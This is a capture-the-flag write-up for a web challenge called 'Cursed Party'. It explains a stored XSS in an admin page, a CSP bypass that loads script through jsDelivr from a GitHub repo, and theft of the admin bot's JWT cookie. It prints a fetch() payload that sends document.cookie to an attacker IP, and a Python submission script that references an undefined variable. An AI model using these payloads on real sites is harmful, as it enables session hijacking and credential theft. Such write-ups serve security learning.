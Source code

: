 # [Web] Cursed Party

This webapp has a simple form to send details about a party invitation. Once the invitation is submitted, a bot with admin access will visit the page displaying the invitation requests.

```js
const flag = fs.readFileSync('/flag.txt', 'utf8');
[...]
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```
The bot is authenticating using a cookie, containing a [JWT](https://jwt.io/), signed by the webapp secret. The JWT contains the flag.
Stealing this cookie will give us the flag. This is most likely by using an [XSS](https://owasp.org/www-community/attacks/xss/).

Indeed the admin page displaying the requests is vulnerable to XSS

{% raw %}
```html
    <body>
        <div class="container" style="margin-top: 20px">
            {% for request in requests %}
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>

                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
```
{% endraw %}

However we do have one more thing to overcome. This site uses a [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header restricting from where Javascript can be loaded into the victim's browser.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

It uses `https://cdn.jsdelivr.net` as the base URL for scripts: we can upload an XSS payload to Github, use JS Delivr to fetch that script and serve it as part of its CDN.

The XSS payload we will use should not contain `eval`, as the CSP doesn't allow `unsafe-eval`. We can use `fetch` to send the cookie data

```html
<script>fetch('http://1.2.3.4:4444?aaa='+document.cookie, {method: 'GET',mode: 'no-cors'});</script>
```

Once this is hosted on Github, we send the corresponding JSDelivr as part of the invitation form, to be displayed by the admin bot.

```python
import requests

host = "http://1.2.3.4:32689"

xss = b'</p></div><script src="https://cdn.jsdelivr.net/gh/pgaulon/ctf-xss@main/troll.js"></script>'
payload = {
    "costume_type": "aaa",
    "email": "aaa@aa.aa",
    "halloween_name": xss_object,
    "trick_or_treat": "treats"
    }

response = requests.post(host + '/api/submit', json=payload)
print(response.text)
```

We then receive the callback on our listener, with the cookie containing the flag. The cookie being a JWT, it just needs an extra base64 decoding.

![Flag](./img/web_cursed_party_1.png)
